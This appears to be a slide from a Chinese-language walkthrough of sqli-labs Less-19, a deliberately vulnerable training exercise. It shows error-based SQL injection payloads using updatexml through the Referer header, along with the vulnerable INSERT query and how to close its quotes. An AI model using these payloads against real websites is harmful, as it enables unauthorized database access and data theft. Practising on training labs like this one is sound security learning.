

# Less-19

以下均为POST内容： ‘and updatexml(1,concat(0x7e,(database()),0x7e),1) and ’1‘= ‘1
注册登录再注入
1. 登录成功显示的是Referer信息
2. 登录失败是没有回显信息的
3. $insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
4. 分析后得知，需要进行闭合操作，两种方法：
（1）' or updatexml(1,concat(0x7e,(database())),1) and '1'=‘1
（2）‘ or updatexml(1,concat(0x7e,(database())),1), ‘’)#  (注意在直接复制的时候，可能出现错误，因为ppt格式的问题)
然后再通过mysql注入语句进行操作即可！